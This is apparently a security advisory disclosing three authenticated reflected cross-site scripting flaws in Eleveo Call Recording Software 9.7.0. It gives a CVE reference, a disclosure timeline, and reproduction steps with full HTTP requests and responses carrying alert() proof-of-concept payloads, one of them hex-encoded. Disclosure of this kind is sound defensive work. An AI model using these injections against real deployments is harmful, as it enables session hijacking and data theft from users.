






# Eleveo Call Recording Software 9.7.0 Multiple Reflected Cross-Site Scripting

> - https://vuldb.com/vuln/410993
> - https://vuldb.com/submit/894894
> - https://www.cve.org/CVERecord?id=CVE-2026-101141

## Timeline

- 10/3/2026 - Initial contact with the vendor
- 14/3/2026 - A second attempt was made to contact the vendor; however, no response was received
- 18/7/2026 - The vulnerability was submitted to VulnDB for CVE assignment.
- 28/9/2026 - The CVE has been assigned and published.

## Software Details

| Key              | Value                                          |
| ---------------- | ---------------------------------------------- |
| Vendor Name      | Eleveo                                         |
| Software Name    | Call Recording Software                        |
| Software URL     | https://www.eleveo.com/call-recording-software |
| Affected Version | 9.7.0                                          |

## Description

Multiple authenticated reflected Cross-Site Scripting (XSS) vulnerabilities in Eleveo Call Recording 9.7.0 allowing remote attackers to inject arbitrary web script or HTML via the viewRoleId parameter in the (1) Recording Rules Add, (2) Recording Rules Edit form; (3) the cfType parameter in the Play Audio page. Injected scripts are reflected back in the server response without proper sanitization, enabling attackers to execute arbitrary JavaScript in the context of other authenticated users’ sessions.

## Implications

- Execution of arbitrary scripts in the context of authenticated users.
- Account compromise through session hijacking or theft of authentication tokens.
- Manipulation of application functionality or display by injecting malicious content. 
- Disclosure of sensitive data accessible via the victim’s session.

## Vulnerability Type

Multiple Reflected Cross-Site Scripting

## Steps to Reproduce

### (1) | Reflected XSS in Recording Rules Add Form (callrec/recording_rules_add.jsp)

1. Login as an administrative user
2. Access one of the affected URLs below, click **Cancel** within the interface.

- https://example.local/callrec/recording_rules_add.jsp?viewRoleId=1%27;alert(%27spark%27);//

```http
GET /callrec/recording_rules_add.jsp?viewRoleId=1%27;alert(%273l5h0pky%27);// HTTP/1.1
Host: example.local
Cookie: DWRSESSIONID=***TRUNCATED***; scroolY=0; JSESSIONID=***TRUNCATED***
Sec-Ch-Ua: "Not:A-Brand";v="99", "Microsoft Edge";v="145", "Chromium";v="145"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36 Edg/145.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive
```

```http
HTTP/1.1 200
Date: Sun, 08 Mar 2026 22:31:16 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Access-Control-Allow-Origin:
Access-Control-Allow-Methods: GET, POST, HEAD, OPTIONS, DELETE, PUT
Access-Control-Allow-Headers: Origin, Accept, X-Requested-With, Content-Type, Access-Control-Request-Method, Access-Control-Request-Headers
Access-Control-Max-Age: 1800
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval';img-src *; style-src * 'unsafe-inline';
Content-Type: text/html;charset=utf-8
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Length: 12143


***TRUNCATED***
  <td colspan="2">
    <input type="submit" value="New Rule" class="button button2">
      <input type="button" value="Cancel" onclick="window.location='recording_rules_show.jsp?org.apache.struts.taglib.html.TOKEN=***TRUNCATED***&viewRoleId=1&#39;;alert(&#39;3l5h0pky&#39;);//'" class="button"/>
  </td>
</tr>
***TRUNCATED***
```




### (2) | Reflected XSS in Recording Rules Edit Form (/callrec/recording_rules_edit.jsp)

- https://example.local/callrec/recording_rules_edit.jsp?viewRoleId=1%27;alert(%27spark%27);//&ruleId=1

```http
GET /callrec/recording_rules_edit.jsp?viewRoleId=1%27;alert(%27spark%27);//&ruleId=1 HTTP/1.1
Host: example.local
Cookie: DWRSESSIONID=***TRUNCATED***; scroolY=0; JSESSIONID=***TRUNCATED***
Sec-Ch-Ua: "Not:A-Brand";v="99", "Microsoft Edge";v="145", "Chromium";v="145"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36 Edg/145.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive
```

```http
HTTP/1.1 200
Date: Sun, 08 Mar 2026 22:34:13 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Access-Control-Allow-Origin:
Access-Control-Allow-Methods: GET, POST, HEAD, OPTIONS, DELETE, PUT
Access-Control-Allow-Headers: Origin, Accept, X-Requested-With, Content-Type, Access-Control-Request-Method, Access-Control-Request-Headers
Access-Control-Max-Age: 1800
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval';img-src *; style-src * 'unsafe-inline';
Content-Type: text/html;charset=utf-8
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Length: 12426


***TRUNCATED***
<tr class="row4">
  <td colspan="3"></td>
    <td>
    <input type="submit" value="Save" class="button button2">
    <input type="button" value="Cancel" onclick="window.location='recording_rules_show.jsp?org.apache.struts.taglib.html.TOKEN=***TRUNCATED***&viewRoleId=1&#39;;alert(&#39;3l5h0pky&#39;);//'" class="button"/>
  </td>
</tr>
***TRUNCATED***
```




### (3) | Reflected XSS in Play Audio Page (/callrec/audio.jsp)

1. Navigate to https://example.local/callrec/audio.jsp?callId=305&cfType=%22%3e%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%27%33%6c%35%68%30%70%6b%79%27%29%3c%2f%73%63%72%69%70%74%3e

```http
GET /callrec/audio.jsp?callId=305&cfType=%22%3e%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%27%33%6c%35%68%30%70%6b%79%27%29%3c%2f%73%63%72%69%70%74%3e HTTP/1.1
Host: example.local
Cookie: DWRSESSIONID=***TRUNCATED***; JSESSIONID=***TRUNCATED***
Sec-Ch-Ua: "Not:A-Brand";v="99", "Microsoft Edge";v="145", "Chromium";v="145"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36 Edg/145.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: frame
Referer: https://example.local/callrec/calldatatable
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive
```

```http
HTTP/1.1 200
Date: Wed, 11 Mar 2026 03:49:01 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Access-Control-Allow-Origin:
Access-Control-Allow-Methods: GET, POST, HEAD, OPTIONS, DELETE, PUT
Access-Control-Allow-Headers: Origin, Accept, X-Requested-With, Content-Type, Access-Control-Request-Method, Access-Control-Request-Headers
Access-Control-Max-Age: 1800
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval';img-src *; style-src * 'unsafe-inline';
Content-Type: text/html;charset=utf-8
Content-Length: 5710
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

***TRUNCATED***
          function initPlayer(fileFormat) {
            var playerDiv = document.getElementById("playerdiv");
            var pathToPlayer = "getFileStream?type="><script>alert('3l5h0pky')</script>&callId=305";
***TRUNCATED***
          http_request.open("GET", "getFileStream?action=info&type="><script>alert('3l5h0pky')</script>&callId=305", true);
          http_request.send(null);
        }
        embedPlayer();
      }
    </script>
***TRUNCATED***
    <div id="playerdiv">
      <audio id="player1" controls="controls" preload="none" >
        <source src="getFileStream?type="><script>alert('3l5h0pky')</script>&callId=305" type="audio/mp3"/>
        <object width="265" height="30" type="application/x-shockwave-flash" data="mediaelement/flashmediaelement.swf">
          <param name="audio" value="mediaelement/flashmediaelement.swf" />
          <param name="flashvars" value="controls=true&file=getFileStream?type="><script>alert('3l5h0pky')</script>&callId=305"/>
        </object>
***TRUNCATED***
```  
  







